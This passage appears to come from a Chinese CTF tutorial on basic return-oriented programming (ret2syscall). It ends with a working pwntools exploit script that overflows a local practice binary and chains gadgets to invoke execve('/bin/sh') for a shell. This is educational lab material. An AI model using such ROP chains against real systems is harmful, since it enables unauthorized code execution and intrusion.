 ![Alt](img/wiki-BasicRop5.png)

至此，设置寄存器的值的gadgets已全部找到。
此外，还需要获得`/bin/sh`的地址

![Alt](img/wiki-BasicRop6.png)

```python
    from pwn import *

    p = process('./ret2syscall')

    pop_eax_ret = 0x080bb196
    pop_edx_ecx_ebx_ret = 0x0806eb90
    int_0x80 = 0x08049421
    binsh = 0x80be408
    payload = flat(
        ['A'*(0x6c+4), pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
    # payload = 'A'*(0x6c+4)
    # payload += p32(pop_eax_ret) + p32(0xb) # 设置eax=0xb
    # payload += p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh)    # 设置 edx=ecx=0, ebx=binsh
    # payload += p32(int_0x80) # 系统调用

    p.sendline(payload)
    sleep(1)
    p.interactive()
```

